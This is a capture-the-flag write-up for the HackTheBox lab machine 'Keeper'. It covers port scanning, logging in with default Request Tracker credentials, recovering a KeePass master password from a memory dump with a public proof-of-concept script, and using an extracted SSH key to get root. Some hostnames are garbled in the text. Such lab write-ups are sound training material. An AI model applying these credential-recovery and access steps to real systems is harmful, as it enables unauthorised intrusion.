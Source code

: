 ```yaml
---
title: "Keeper"
description: ""
pubDate: "Jul 15 2022"
heroImage: "/Keeper/keeper.webp"
---
```


**Difficulty:**

Easy

**OS:**

Linux## Introduction Keeper is an easy-level HackTheBox laboratory machine running Linux. It involves various tasks, including identifying a standard password, exploring password transmission through an open communication channel, encountering an untimely change, and exploiting a vulnerability in Keepass.## Nmap

```bash
shellnmap -A -T4 -p- 10.129.208.9``````PORT   STATE SERVICE VERSION22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)| ssh-hostkey:|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)80/tcp open  http    nginx 1.18.0 (Ubuntu)|_http-server-header: nginx/1.18.0 (Ubuntu)|_http-title: Site doesn't have a title (text/html).No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).TCP/IP fingerprint:OS:SCAN(V=7.93%E=4%D=8/16%OT=22%CT=1%CU=33068%PV=Y%DS=2%DC=T%G=Y%TM=64DCC1DOS:5%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=A)SEQOS:(SP=104%GCD=1%ISR=106%TI=Z%CI=Z%TS=A)OPS(O1=M569ST11NW7%O2=M569ST11NW7%OOS:3=M569NNT11NW7%O4=M569ST11NW7%O5=M569ST11NW7%O6=M569ST11)WIN(W1=FE88%W2=OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M569NNSNOS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DOS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%OOS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=NOS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%COS:D=S)Network Distance: 2 hopsService Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelTRACEROUTE (using port 110/tcp)HOP RTT       ADDRESS1   351.44 ms 10.10.16.1 (10.10.16.1)2   158.05 ms 10.129.208.9 (10.129.208.9)OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap done: 1 IP address (1 host up) scanned in 1125.60 seconds
```

## User FlagWe have two open ports:

```bash
shell22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)| ssh-hostkey:|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)80/tcp open  http    nginx 1.18.0 (Ubuntu)|_http-server-header: nginx/1.18.0 (Ubuntu)|_http-title: Site doesn't have a title (text/html).
```

Upon accessing Port 80, we encounter a hostname. We can add this hostname to the hosts file using the command:

```bash
shellsudo nano /etc/hosts<Ip address> /Keeper/.htb tickets./Keeper/.htb
```

The discovered website is a Request Tracker instance, and default credentials grant access to a user named “lnorgaard.”

![](/Keeper/Untitled.png)

![](/Keeper/Untitled%201.png)

Clicking on “lnorgaard” provides Unix Login access, allowing SSH access.

![](/Keeper/Untitled%202.png)

We successfully login via SSH.

![](/Keeper/Untitled%203.png)

## Root FlagA zip file is found in the home directory, which is extracted. Two files are extracted, and research on Keepass vulnerabilities leads to the discovery of a potential plain text password retrieval method using a Linux script from

[https://github.com/CMEPW/keepass-dump-masterkey](https://github.com/CMEPW/keepass-dump-masterkey)

.Using the script, we attempt to retrieve the password:

```bash
shellpython3 poc.py -d KeePassDumpFull.dmp
```

This results in a potential password. Further investigation and testing lead us to a working password:

```bash
plaintextrødgrød med fløde
```

Using Keepass and the database found in the zip file, we enter the password and gain access to the database.

![](/Keeper/Untitled%204.png)

Within the database, an SSH-RSA key is found, imported into Puttygen, and a new SSH key is generated. The generated key is used for SSH access:

```bash
shellchmod 600 root_rsassh -i root_rsa root@/Keeper/.htb
```

This grants us root access.## ConclusionThe /Keeper/ HackTheBox machine provided an opportunity to explore various aspects of penetration testing, including port scanning, identifying vulnerabilities, exploiting Keepass vulnerabilities, and escalating privileges to root.This writeup offers a comprehensive overview of the steps taken to conquer this machine, serving as a valuable reference for those interested in the field of ethical hacking and penetration testing.Happy hacking!